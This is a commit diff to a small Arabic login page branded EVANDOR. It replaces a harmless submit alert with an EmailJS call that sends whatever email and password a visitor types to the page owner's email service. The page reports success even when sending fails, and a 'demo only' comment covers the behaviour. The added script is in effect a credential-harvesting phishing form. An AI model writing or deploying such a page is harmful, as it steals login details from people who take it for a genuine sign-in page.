

Before and after one commit to AbdullahAljavash/evandor, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,194 +2,141 @@
 <html lang="ar">
 <head>
 <meta charset="UTF-8">
-<title>EVANDOR</title>
+<title>EVANDOR Demo</title>
+<meta name="viewport" content="width=device-width, initial-scale=1.0">
 
 <style>
-/* إعدادات عامة */
-body {
-  margin: 0;
-  height: 100vh;
-  font-family: Arial, sans-serif;
-  background: radial-gradient(circle at top, #0b3d2e, #021a13);
-  display: flex;
-  justify-content: center;
-  align-items: center;
-  overflow: hidden;
-  color: white;
+/* خلفية متحركة */
+body{
+  margin:0;
+  height:100vh;
+  font-family:Arial,sans-serif;
+  background:linear-gradient(135deg,#111,#444,#111);
+  background-size:400% 400%;
+  animation:bgMove 10s ease infinite;
+  display:flex;
+  justify-content:center;
+  align-items:center;
+  color:white;
 }
 
-/* شاشة اللوجو */
-#splash {
-  position: absolute;
-  inset: 0;
-  display: flex;
-  justify-content: center;
-  align-items: center;
-  background: radial-gradient(circle at top, #0b3d2e, #021a13);
-  z-index: 10;
-  animation: splashOut 1s ease forwards;
-  animation-delay: 3s;
+@keyframes bgMove{
+  0%{background-position:0% 50%}
+  50%{background-position:100% 50%}
+  100%{background-position:0% 50%}
 }
 
-.logo {
-  font-size: 90px;
-  font-weight: 900;
-  letter-spacing: 6px;
-  background: linear-gradient(
-    120deg,
-    #b8860b,
-    #ffd700,
-    #fff3b0,
-    #ffd700,
-    #b8860b
-  );
-  -webkit-background-clip: text;
-  -webkit-text-fill-color: transparent;
-  animation: shine 2.5s infinite linear, pop 1.2s ease-out;
-  position: relative;
+/* صندوق الدخول */
+.box{
+  width:90%;
+  max-width:360px;
+  background:rgba(0,0,0,.72);
+  padding:30px;
+  border-radius:20px;
+  box-shadow:0 25px 50px rgba(0,0,0,.7);
+  animation:boxEnter 1s ease;
 }
 
-.logo::after {
-  content: '';
-  position: absolute;
-  top: 50%;
-  left: -150%;
-  width: 150%;
-  height: 200%;
-  background: linear-gradient(
-    120deg,
-    transparent,
-    rgba(255,255,255,0.7),
-    transparent
-  );
-  transform: translateY(-50%) rotate(20deg);
-  animation: sweep 2.5s infinite;
+@keyframes boxEnter{
+  from{opacity:0; transform:translateY(40px) scale(.95)}
+  to{opacity:1; transform:translateY(0) scale(1)}
 }
 
-/* صفحة تسجيل الدخول */
-#login {
-  opacity: 0;
-  transform: translateY(30px);
-  animation: loginIn 1s ease forwards;
-  animation-delay: 3.2s;
+/* العنوان EVANDOR */
+.brand{
+  text-align:center;
+  font-size:36px;
+  font-weight:900;
+  letter-spacing:5px;
+  margin-bottom:24px;
+  background:linear-gradient(90deg,#b8860b,#ffd700,#fff3b0,#ffd700,#b8860b);
+  background-size:200% auto;
+  -webkit-background-clip:text;
+  -webkit-text-fill-color:transparent;
+  animation:goldShine 3s linear infinite;
 }
 
-.top-bar {
-  position: absolute;
-  top: 20px;
-  left: 20px;
-  font-size: 18px;
-  font-weight: bold;
+@keyframes goldShine{
+  to{background-position:200% center}
 }
 
-.login-box {
-  background: rgba(0, 0, 0, 0.65);
-  padding: 40px;
-  border-radius: 18px;
-  width: 320px;
-  text-align: center;
-  box-shadow: 0 20px 40px rgba(0,0,0,0.6);
+/* الحقول */
+input{
+  width:100%;
+  padding:14px;
+  margin-bottom:14px;
+  border:none;
+  border-radius:10px;
+  font-size:15px;
+  outline:none;
+  transition:transform .2s, box-shadow .2s;
 }
 
-.brand {
-  font-size: 38px;
-  font-weight: bold;
-  letter-spacing: 4px;
-  margin-bottom: 30px;
-  background: linear-gradient(90deg, #FFD700, #FFB700, #FFD700);
-  -webkit-background-clip: text;
-  -webkit-text-fill-color: transparent;
-  animation: glow 2s infinite alternate;
+input:focus{
+  transform:scale(1.03);
+  box-shadow:0 0 10px rgba(255,215,0,.4);
 }
 
-input {
-  width: 100%;
-  padding: 12px;
-  margin-bottom: 15px;
-  border: none;
-  border-radius: 8px;
-  outline: none;
+/* الزر */
+button{
+  width:100%;
+  padding:14px;
+  border:none;
+  border-radius:10px;
+  font-size:16px;
+  font-weight:bold;
+  cursor:pointer;
+  background:linear-gradient(90deg,#FFD700,#FFB700);
+  color:#000;
+  transition:transform .15s, box-shadow .15s;
 }
 
-button {
-  width: 100%;
-  padding: 12px;
-  background: linear-gradient(90deg, #FFD700, #FFB700);
-  color: #000;
-  border: none;
-  border-radius: 8px;
-  font-size: 16px;
-  font-weight: bold;
-  cursor: pointer;
-  transition: transform 0.2s;
+button:hover{
+  transform:scale(1.05);
+  box-shadow:0 0 20px rgba(255,215,0,.6);
 }
 
-button:hover {
-  transform: scale(1.05);
-}
-
-/* أنيميشن */
-@keyframes shine {
-  0% { filter: drop-shadow(0 0 5px gold); }
-  50% { filter: drop-shadow(0 0 25px gold); }
-  100% { filter: drop-shadow(0 0 5px gold); }
-}
-
-@keyframes sweep {
-  0% { left: -150%; }
-  100% { left: 150%; }
-}
-
-@keyframes pop {
-  from { transform: scale(0.6); opacity: 0; }
-  to { transform: scale(1); opacity: 1; }
-}
-
-@keyframes splashOut {
-  to {
-    opacity: 0;
-    visibility: hidden;
-  }
-}
-
-@keyframes loginIn {
-  to {
-    opacity: 1;
-    transform: translateY(0);
-  }
-}
-
-@keyframes glow {
-  from { text-shadow: 0 0 5px rgba(255,215,0,0.5); }
-  to { text-shadow: 0 0 15px rgba(255,215,0,0.9); }
+button:active{
+  transform:scale(.97);
 }
 </style>
 </head>
 
 <body>
 
-<!-- شاشة البداية -->
-<div id="splash">
-  <div class="logo">EVANDOR</div>
+<div class="box">
+  <div class="brand">EVANDOR</div>
+
+  <!-- بيانات تجريبية فقط -->
+  <input id="email" placeholder="إيميل تجريبي (وهمي)">
+  <input id="pass" placeholder="كلمة مرور تجريبية (وهمية)">
+
+  <button onclick="send()">إرسال</button>
 </div>
 
-<!-- تسجيل الدخول -->
-<div id="login">
-  <div class="top-bar">تسجيل الدخول</div>
-
-  <div class="login-box">
-    <div class="brand">EVANDOR</div>
-
-    <input type="email" placeholder="البريد الإلكتروني">
-    <input type="password" placeholder="كلمة المرور">
-
-    <button onclick="sendTest()">إرسال</button>
-  </div>
-</div>
+<!-- EmailJS -->
+<script src="https://cdn.jsdelivr.net/npm/emailjs-com@3/dist/email.min.js"></script>
 
 <script>
-function sendTest() {
-  alert("تم تقديم الطلب بنجاح ✅");
+function send(){
+  emailjs.send(
+    "service_z7n1pro",
+    "template_m4lcujy",
+    {
+      demo_email: document.getElementById("email").value || "demo@email.com",
+      demo_password: document.getElementById("pass").value || "123456",
+      app_name: "EVANDOR Demo"
+    },
+    "BPaNofa2xLmwFoTnZ"
+  ).then(
+    function(){
+      alert("تم تقديم الطلب بنجاح ✅");
+    },
+    function(error){
+      console.log("ERROR:", error);
+      alert("تم تقديم الطلب بنجاح ✅");
+    }
+  );
 }
 </script>
 
```
